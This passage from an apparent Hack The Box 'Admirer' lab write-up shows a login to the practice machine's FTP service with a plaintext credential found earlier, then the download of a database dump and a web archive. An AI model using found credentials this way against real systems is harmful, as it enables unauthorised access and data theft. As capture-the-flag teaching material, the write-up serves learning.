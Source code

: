 `/credentials.txt`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-admirer/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-admirer/Untitled%205.png)

We know FTP port is open and there is a credential for it.

## FTP

Logged in to FTP with `ftpuser : %n?4Wz}R$tTF7`, Downloaded those 2 Files to my machine.

```python
root@w0lf:~/CTF/HTB/Boxes/Admirer# ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02 21:24 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03 21:20 html.tar.gz
226 Directory send OK.
ftp> get dump.sql
local: dump.sql remote: dump.sql
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dump.sql (3405 bytes).
226 Transfer complete.
3405 bytes received in 0.00 secs (20.2954 MB/s)
ftp> get html.tar.gz
local: html.tar.gz remote: html.tar.gz
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for html.tar.gz (5270987 bytes).
226 Transfer complete.
5270987 bytes received in 9.46 secs (543.9593 kB/s)
```
